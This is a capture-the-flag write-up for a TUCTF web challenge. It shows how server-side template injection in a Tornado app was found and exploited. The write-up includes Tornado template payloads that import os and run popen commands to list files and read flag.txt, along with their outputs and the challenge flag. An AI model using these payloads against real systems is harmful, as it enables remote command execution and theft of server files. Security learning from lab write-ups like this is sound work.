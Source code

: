# And Now, For Something Completely Different - Writeup

### Question

````
We all know Black Friday is the time for shopping. Can you find us a flag on this online store?

http://chal.tuctf.com:30007/
````

### Answer
Check the source file and you will see the following.

````
<!-- TODO: add /welcome/test -->
````

Access again with the curl command.

````
curl http://chal.tuctf.com:30007/welcome/test

<html>
    <head>
        <title>Welcome test</title>
    </head>
    <body>
        Welcome test
    </body>
</html>
````

Access to the upper directory results in an error.

````
curl http://chal.tuctf.com:30007/welcome/
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 1488, in _execute
    result = self.prepare()
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 2223, in prepare
    raise HTTPError(self._status_code)
HTTPError: HTTP 404: Not Found
````


I guess that I use tornado from the error code.
Confirming SSTI vulnerabilities reveals vulnerabilities.

````
http://chal.tuctf.com:30007/welcome/{{2*2}}
Welcome 4
````


If you check with the os command, you can see that flag.txt is located directly under class_website.py.

````
http://chal.tuctf.com:30007/welcome/{%import os%}{{os.popen("ls -al").read()}}

<html>
    <head>
        <title>Welcome {%import os%}{{os.popen(&quot;ls -al&quot;).read()}}</title>
    </head>
    <body>
        Welcome total 40
dr-xr-x--- 1 class class  4096 Nov 28 06:10 .
drwxr-xr-x 1 root  root   4096 Nov 21 23:14 ..
-r-xr-x--- 1 class class 12934 Nov 28 06:10 class_website.py
-r-xr-x--- 1 class class    36 Nov 28 04:23 flag.txt
-r-xr-x--- 1 class class   173 Nov 28 05:29 requirements.txt
dr-xr-x--- 1 class class  4096 Nov 28 04:23 static
dr-xr-x--- 1 class class  4096 Nov 28 04:23 templates

    </body>
</html>
````

Check the contents of flag.txt.

````
http://chal.tuctf.com:30007/welcome/{%import os%}{{os.popen("cat flag.txt").read()}}

<html>
    <head>
        <title>Welcome {%import os%}{{os.popen(&quot;cat flag.txt&quot;).read()}}</title>
    </head>
    <body>
        Welcome TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

    </body>
</html>
````

###### TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}
